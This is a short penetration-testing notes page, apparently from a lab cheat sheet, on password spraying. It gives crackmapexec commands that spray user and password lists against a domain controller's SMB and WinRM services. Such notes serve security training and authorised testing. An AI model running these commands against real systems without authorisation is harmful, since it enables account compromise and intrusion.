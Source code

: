 # Password Spraying



### SMB

**Password spray** a list of usernames against a domain controller.

{% code overflow="wrap" %}
```sh
crackmapexec smb 192.168.219.122 -u ./users.txt -p ./passwords.txt --continue-on-success
```
{% endcode %}



### WinRM

Spray passwords against WinRM service on the domain controller:

{% code overflow="wrap" %}
```sh
crackmapexec winrm 192.168.219.122 -u ./users.txt -p ./passwords.txt --continue-on-success
```
{% endcode %}



